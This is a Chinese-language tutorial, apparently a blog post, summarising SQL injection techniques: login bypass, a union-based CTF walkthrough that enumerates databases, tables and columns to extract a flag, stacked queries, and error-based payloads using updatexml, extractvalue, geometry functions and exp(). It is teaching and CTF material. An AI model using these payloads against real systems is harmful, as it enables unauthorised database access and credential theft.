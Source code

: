 sql注入是个很复杂的东西，这里分多篇来总结一些常见的注入姿势。
## 0x00 注入原理
sql注入，即通过在sql查询的过程中通过构造特殊输入，改变原有sql语句的结构，从而实现执行攻击者想要执行的sql语句。    
例如，我们有如下代码：   
```
$id = $_GET['id'];
$query = "SELECT * FROM users WHERE id=" . $id;
```
如果我们构造```/?id=1%20or%201=1```那么此时query将会变成```"SELECT * FROM users WHERE id=1 or 1=1"```,此时where后面的语句永远为真，故sql语句成功执行，造成sql注入。 
## 0x01 注入类型
### 按变量类型分类
- 数字型
- 字符型
### 按提交方式分类
- GET型
- POST型
- COOKIE型
### 按注入方式分类
- union联合查询注入
- 报错注入
+ 盲注
    + 基于时间的盲注
    + 基于布尔的盲注
### 编码
- 宽字节注入

## 0x02 万能密码
万能密码是指，在一个登录接口中如果存在sql注入，可以通过构造where子句永远为真从而实现登录。例如：   
```
$username = $_GET['username'];
$password = $_GET['password'];
$query = "SELECT * FROM users WHERE username='" . $id . "'and password='" . $password . "'";
```
首先我们知道```#```和```--```是sql语句中的注释，其中```--```后面需要加一个空格。这里我们巧妙构造输入```/?username=admin%27%20or%201=1%20%23```，这时sql语句变为```"SELECT * FROM users WHERE username='admin' or 1=1 #and password=''"```从而```and password=''```这部分内容被注释掉了，sql语句永远为真，造成sql注入。   
## 0x03 联合查询注入
联合查询注入是一种常用的注入方式，它借助的是大于等于5.0版本的MySQL中的```information_schema```数据库，```information_schema```数据库中存储了MySQL服务器所维护的其他所有数据库的信息。例如数据库名，数据表名，列名，列的数据类型等。这时通过```union```关键字进行联合查询即可查询到大量信息。   

举个简单的题目的例子，2019极客大挑战的一道sql注入题。(复现环境https://buuoj.cn/challenges)   
拿到题目，使用```1'```登录，发现sql报错，故存在注入点。   
<img src="/assets/img/sql注入总结（一）/sql注入总结（一）1.jpg">   
<img src="/assets/img/sql注入总结（一）/sql注入总结（一）2.jpg">   
这里首先尝试万能密码登录，```/check.php?username=admin%27%20%23&password=123```，发现成功登录，显示了登录用户名和一串密码。  
<img src="/assets/img/sql注入总结（一）/sql注入总结（一）3.jpg">   
将第一个查询字段的```admin```置为一个不存在的值[不这么做的话会无法显示union select查询出的值]，然后判断列数，发现共计3列，尝试第四列则报错。  
```
/check.php?username=admn%27%20order%20by%1,2,3%23&password=123
```
<img src="/assets/img/sql注入总结（一）/sql注入总结（一）4.jpg">   

```
/check.php?username=admn%27%20order%20by1,2,3,4%23&password=123
```
<img src="/assets/img/sql注入总结（一）/sql注入总结（一）5.jpg">   

判断一下列名对应的内容：  
```
/check.php?username=admn%27%20union%20select%201,2,3%23&password=123
```
<img src="/assets/img/sql注入总结（一）/sql注入总结（一）6.jpg">   

发现第二列对应username，第三列对应password。   
下面开始union select注入。首先查数据库名。数据库名对应的是```information_schema.schemata```数据表，这里面存储的是所有数据库的信息。    

```
/check.php?username=admn%27%20union%20select%201,(select%20group_concat(schema_name)%20from%20information_schema.schemata),3%23&password=123
```
<img src="/assets/img/sql注入总结（一）/sql注入总结（一）7.jpg">    

下一步查询数据表，所有数据表名信息存储在```information_schema.tables```数据表中。例如查询geek数据库的数据表名：   
```
/check.php?username=admn%27%20union%20select%201,(select%20group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema="geek"),3%23&password=123
```
<img src="/assets/img/sql注入总结（一）/sql注入总结（一）8.jpg">   

下一步查询列名，所有列名信息存储在```information_schema.columns```数据表中。例如查询l0ve1ysq1表中的所有列名：  

```
/check.php?username=admn%27%20union%20select%201,(select%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema="geek"%20and%20table_name="l0ve1ysq1"),3%23&password=123
```
<img src="/assets/img/sql注入总结（一）/sql注入总结（一）9.jpg">   
最后通过limit限制行数一行一行查询表中的内容，最终得到flag。  

```
/check.php?username=admn%27%20union%20select%201,(select%20password%20from%20geek.l0ve1ysq1%20limit%2015,1),3%23&password=123
```
<img src="/assets/img/sql注入总结（一）/sql注入总结（一）10.jpg">   

## 0x04 堆叠注入
堆叠注入指的是在某些情况下，后端的sql语句执行函数可以执行多条命令(例如mysqli_multi_query())，这个时候我们可以通过```;```来结束前一条sql语句，随后再在分号后面写入sql，从而实现“堆一堆”sql语句进行注入。而```;```后的语句理论上没有过滤的话则可以为所欲为。    
不过堆叠注入利用的条件有限，因为一般情况下后台的sql执行函数为安全起见只允许执行单一sql，分号后的语句将会被忽略。  
## 0x05 报错注入
报错注入一般应用在正确执行无回显，而若发生错误会显示错误的情况下。这时可以使用报错注入的方式获得数据库信息。   
报错注入常用函数：   
#### updatexml()
函数原型：```UPDATEXML(XML_document, XPath_string, new_value);```
第一个参数：```XML_document```，是String格式，是XML文档对象的名称   
第二个参数：```XPath_string```，XPath格式的字符串   
第三个参数：```new_value```，String格式，替换查找到符合条件的数据   
函数作用：改变文档中符合条件的节点的值。   
注：updatexml最多只能显示32位，需要配合substr等字符串处理函数使用。   
例如：
```
http://example.com/index.php?id=1 and updatexml(1,concat(0x7e,(select @@version),0x7e),1)
```
#### extractvalue()
函数原型：```EXTRACTVALUE(XML_document, XPath_string)```   
参数含义同上。   
举例:   
```
http://example.com/index.php?id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)))
```
#### 几何对象
MySQL中支持的几何数据类型包括Geometry,Point,LineString,Polygon以及集合类型的MultiPoint,MultiLineString,MultiPolygon,GeometryCollection.其中Geometry可以表示任意一种几何类型，即在MySQL中，如果一个字段类型是Geometry，则可以存储Point、LineString等其它几何类型的值。其他的几种则需要固定有效的表示格式。   
我们可以借助几何对象的相关函数进行报错注入。   
geometrycollection():```id=1 and geometrycollection((select * from(select * from(select user())a)b))```   
multipoint():```id=1 and multipoint((select * from(select * from(select user())a)b))```   
polygon():```id=1 and polygon((select * from(select * from(select user())a)b))```   
multipolygon():```id=1 and multipolygon((select * from(select * from(select user())a)b))```   
linestring():```id=1 and linestring((select * from(select * from(select user())a)b))```   
multilinestring():```id=1 and multilinestring((select * from(select * from(select user())a)b))```   
#### exp()
例子：
```id=1 and exp(~(select * from(select user())a))```   

OK,先总结这么多，剩下的内容下次再总结。




